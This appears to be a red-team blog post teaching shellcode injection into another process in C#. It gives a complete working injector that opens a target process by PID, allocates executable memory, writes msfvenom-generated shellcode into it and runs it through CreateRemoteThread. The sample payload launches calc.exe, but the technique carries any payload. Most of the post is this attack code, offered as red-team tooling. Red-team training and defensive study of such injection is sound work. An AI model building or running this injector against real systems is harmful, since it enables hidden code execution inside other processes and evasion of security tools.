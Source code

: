 ```yaml
---
title: "Shellcode Injection in C# - Part 1 - Process Injection"
author:
  name: crypt0ace
  link: https://twitter.com/crypt0acee
date: 2022-09-02
description: "Discussing shellcode injection techniques we can use while utilizing C#"
tags: [Red Team]
---
```

## Introduction
In the previous post we discussed how we can use WinAPI in C# and call funtions that we can use to build our red team tools. See the post [here](https://crypt0ace.github.io/posts/WinAPI-and-PInvoke-in-CSharp/) In this post we will look into how we can use C# to see other ways of shellcode injections. 

## Process Injection
From the previous shellcode runner, we saw how we can use the API calls in this order.
<br>
![Previous API Calls](/assets/img/shellcode-injections/previous-calls.png)
<br>
In case of process injection we use these calls.
<br>
![Process Injection API Calls](/assets/img/shellcode-injections/api-calls.png)
<br>
We are going to open a process, allocate some memory into it, then write to that memory with our shellcode and then excute it with `CreateRemoteThread`.
<br>
So instead of `VirtualAlloc` we are going to use `VirtualAllocEx` because it has the ability to allocate memory in other process's address space. Similarly we are using `WriteProcessMemory` instead of `Marshal.Copy` because now we are writing to a remote process and `CreateRemoteThread` to create a thread in that process.
<br>
We can first start to add our imports in. Using the same data conversion table,
```csharp
[DllImport("kernel32.dll")]
public static extern IntPtr OpenProcess(UInt32 dwDesiredAccess, bool bInheritHandle, UInt32 dwProcessId);

[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, int dwSize, UInt32 flAllocationType, UInt32 flProtect);

[DllImport("kernel32.dll")]
public static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, int nSize, ref int lpNumberOfBytesWritten);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, UInt32 dwStackSize, IntPtr lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref int lpThreadId);
```
After the imports we can put our enums in place. We need to put the `flAllocationType` as `MEM_COMMIT` and `MEM_RESERVE`. The `flProtect` will remain the same as RWX or `PAGE_EXECUTE_READWRITE` and we will have a `dwDesiredAccess` for `OpenProcess` call which would specify what are the access levels we want to open the process with. The values for it can be found on the Microsoft Docs [here](https://docs.microsoft.com/en-us/windows/win32/procthread/process-security-and-access-rights). 
<br>
These enums become
```csharp
public enum State
{
  MEM_COMMIT = 0x00001000,
  MEM_RESERVE = 0x00002000
}

public enum Protection
{
  PAGE_EXECUTE_READWRITE = 0x40
}
public enum Process
{
  PROCESS_ALL_ACCESS = 0x000F0000 | 0x00100000 | 0xFFFF,
  PROCESS_CREATE_THREAD = 0x0002,
  PROCESS_QUERY_INFORMATION = 0x0400,
  PROCESS_VM_OPERATION = 0x0008,
  PROCESS_VM_READ = 0x0010,
  PROCESS_VM_WRITE = 0x0020
}
```
With these out of the way we can start with our Main method. First we are going to create our `dwDesiredAccess`. We can use `PROCESS_ALL_ACCESS` or we can use the other ones like
```csharp
var desiredAccess = Process.PROCESS_CREATE_THREAD | Process.PROCESS_QUERY_INFORMATION | Process.PROCESS_VM_OPERATION | Process.PROCESS_VM_READ | Process.PROCESS_VM_WRITE;
```
Next we can add in our shellcode. I'm using a `calc.exe` x64 shellcode I generated from `msfvenom`.
```csharp
// msfvenom -p windows/x64/exec CMD=calc.exe -f csharp
byte[] buf = new byte[276] {
0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,
0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,
0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,
0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,
0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,
0x01,0xd0,0x8b,0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,
0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,0x56,0x48,
0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,
0xac,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,
0x24,0x08,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,
0x66,0x41,0x8b,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x41,0x8b,0x04,
0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,
0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,
0x8b,0x12,0xe9,0x57,0xff,0xff,0xff,0x5d,0x48,0xba,0x01,0x00,0x00,0x00,0x00,
0x00,0x00,0x00,0x48,0x8d,0x8d,0x01,0x01,0x00,0x00,0x41,0xba,0x31,0x8b,0x6f,
0x87,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,
0xd5,0x48,0x83,0xc4,0x28,0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,
0x47,0x13,0x72,0x6f,0x6a,0x00,0x59,0x41,0x89,0xda,0xff,0xd5,0x63,0x61,0x6c,
0x63,0x2e,0x65,0x78,0x65,0x00 };
```
We need to initialize some values like the shellcode size.
```csharp
int shellcode_size = buf.Length;
int bytesWritten = 0;
int lpthreadID = 0;
```
When all these values are set we can start with calling APIs. First one we will be using is `OpenProcess` to open the process. It takes three arguments. The desired access, inherit handle and the process ID. We already have the desired access variable set that we can use. We dont need a inherit handle because we dont want this process to be inherited by a child process and the process ID is something we can give on the command line.
```csharp
IntPtr procHandle = OpenProcess((uint)desiredAccess, false, Convert.ToUInt32(args[0]));
```
Now we can allocate some memory into the process. Like we did in the shellcode runner,
```csharp
IntPtr init = VirtualAllocEx(procHandle, IntPtr.Zero, shellcode_size, (uint)State.MEM_COMMIT | (uint)State.MEM_RESERVE, (uint)Protection.PAGE_EXECUTE_READWRITE);
```
Then we can write to that process's memory using `WriteProcessMemory`. The handle of the process is defined with the `OpenProcess` call. The base address will be the start of the memory we allocated using `VirtualAllocEx`. The buffer is the shellcode bytes, the size is the length of shellcode and the `bytesWritten` are already initialized. We can also see how many bytes get written.
```csharp
WriteProcessMemory(procHandle, init, buf, shellcode_size, ref bytesWritten);
Console.WriteLine("[*] Bytes Written: {0}", bytesWritten);
```
Lastly we will use `CreateRemoteThread` to create a thread for our shellcode annd execute it. We provide it with the process handle, the thread attributes are set to zero. According to Microsoft Docs, *It member of the structure specifies a security descriptor for the new thread. If lpThreadAttributes is NULL, the thread gets a default security descriptor.* The `dwStackSize` is zero which sets the default size. We dont have any parameters so that becomes zero as well and we are going to be printing the thread ID. 
```csharp
IntPtr threadPTR = CreateRemoteThread(procHandle, IntPtr.Zero, 0, init, IntPtr.Zero, 0, ref lpthreadID);
Console.WriteLine("[*] Thread ID: {0}", lpthreadID);
```
Putting it all together gives us this.
```csharp
[DllImport("kernel32.dll")]
public static extern IntPtr OpenProcess(UInt32 dwDesiredAccess, bool bInheritHandle, UInt32 dwProcessId);

[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, int dwSize, UInt32 flAllocationType, UInt32 flProtect);

[DllImport("kernel32.dll")]
public static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, int nSize, ref int lpNumberOfBytesWritten);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, UInt32 dwStackSize, IntPtr lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref int lpThreadId);

public enum State
{
  MEM_COMMIT = 0x00001000,
  MEM_RESERVE = 0x00002000
}

public enum Protection
{
  PAGE_EXECUTE_READWRITE = 0x40
}
public enum Process
{
  PROCESS_ALL_ACCESS = 0x000F0000 | 0x00100000 | 0xFFFF,
  PROCESS_CREATE_THREAD = 0x0002,
  PROCESS_QUERY_INFORMATION = 0x0400,
  PROCESS_VM_OPERATION = 0x0008,
  PROCESS_VM_READ = 0x0010,
  PROCESS_VM_WRITE = 0x0020
}

static void Main(string[] args)
{
  var desiredAccess = Process.PROCESS_CREATE_THREAD | Process.PROCESS_QUERY_INFORMATION | Process.PROCESS_VM_OPERATION | Process.PROCESS_VM_READ | Process.PROCESS_VM_WRITE;
  byte[] buf = new byte[276] {
      0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,
      0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,
      0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,
      0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,
      0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,
      0x01,0xd0,0x8b,0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,
      0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,0x56,0x48,
      0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,
      0xac,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,
      0x24,0x08,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,
      0x66,0x41,0x8b,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x41,0x8b,0x04,
      0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,
      0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,
      0x8b,0x12,0xe9,0x57,0xff,0xff,0xff,0x5d,0x48,0xba,0x01,0x00,0x00,0x00,0x00,
      0x00,0x00,0x00,0x48,0x8d,0x8d,0x01,0x01,0x00,0x00,0x41,0xba,0x31,0x8b,0x6f,
      0x87,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,
      0xd5,0x48,0x83,0xc4,0x28,0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,
      0x47,0x13,0x72,0x6f,0x6a,0x00,0x59,0x41,0x89,0xda,0xff,0xd5,0x63,0x61,0x6c,
      0x63,0x2e,0x65,0x78,0x65,0x00 };
    int shellcode_size = buf.Length;
    int bytesWritten = 0;
    int lpthreadID = 0;
    IntPtr procHandle = OpenProcess((uint)desiredAccess, false, Convert.ToUInt32(args[0]));
    IntPtr init = VirtualAllocEx(procHandle, IntPtr.Zero, shellcode_size, (uint)State.MEM_COMMIT | (uint)State.MEM_RESERVE, (uint)Protection.PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(procHandle, init, buf, shellcode_size, ref bytesWritten);
    Console.WriteLine("[*] Bytes Written: {0}", bytesWritten);
    IntPtr threadPTR = CreateRemoteThread(procHandle, IntPtr.Zero, 0, init, IntPtr.Zero, 0, ref lpthreadID);
    Console.WriteLine("[*] Thread ID: {0}", lpthreadID);
}
```
We can take a process ID from Task Manager. And executing it gives us.
<br>
![Executing Process Injection](/assets/img/shellcode-injections/exec_proc_inject.png)
<br>
A cleaner and improvered version can be found [here](https://gist.github.com/crypt0ace/4d03eaaac958d73bb665f4ca7d068a68). The x86 shellcode part doesnt work btw (yet).
